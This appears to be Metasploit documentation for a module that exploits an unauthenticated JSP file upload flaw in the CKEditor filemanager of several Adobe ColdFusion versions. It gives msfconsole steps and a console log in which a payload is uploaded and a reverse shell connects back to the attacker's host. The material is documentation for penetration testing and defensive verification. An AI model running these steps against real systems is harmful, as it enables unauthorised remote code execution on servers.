## Description

A file upload vulnerability in the CKEditor of Adobe ColdFusion 11 
(Update 14 and earlier), ColdFusion 2016 (Update 6 and earlier), and 
ColdFusion 2018 (July 12 release) allows unauthenticated remote 
attackers to upload and execute JSP files through the filemanager 
plugin. Tested on Adobe ColdFusion 2018 v2018.0.0.310739.

## Vulnerable Application

ColdFusion 11 (Update 14 and earlier),
ColdFusion 2016 (Update 6 and earlier), and 
[ColdFusion 2018 (July 12 release)](https://bintray.com/eaps/coldfusion/cf%3Acoldfusion/2018.0.0)

## Verification Steps

1. `./msfconsole -q`
2. `use exploit/multi/http/coldfusion_ckeditor_file_upload`
3. `set rhosts <rhost>`
4. `set lhost <lhost>`
5. `exploit`
6. Get a shell

## Scenarios

### Tested on Coldfusion 2018 v2018.0.0.310739

```
msf5 > use exploit/multi/http/coldfusion_ckeditor_file_upload
msf5 exploit(multi/http/coldfusion_ckeditor_file_upload) > set rhosts 172.22.222.142
rhosts => 172.22.222.142
msf5 exploit(multi/http/coldfusion_ckeditor_file_upload) > set lhost 172.22.222.136 
lhost => 172.22.222.136
msf5 exploit(multi/http/coldfusion_ckeditor_file_upload) > exploit

[*] Started reverse TCP handler on 172.22.222.136:4444 
[*] Uploading the JSP payload at /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/uploadedFiles/ASMK.jsp...
[+] Upload succeeded! Executing payload...
[*] Command shell session 1 opened (172.22.222.136:4444 -> 172.22.222.142:43262) at 2019-01-10 06:30:52 -0600

whoami
cfuser
uname -a
Linux 6bd4238e7ffb 4.15.0-38-generic #41-Ubuntu SMP Wed Oct 10 10:59:38 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
exit
[*] 172.22.222.142 - Command shell session 1 closed.
msf5 exploit(multi/http/coldfusion_ckeditor_file_upload) >
```
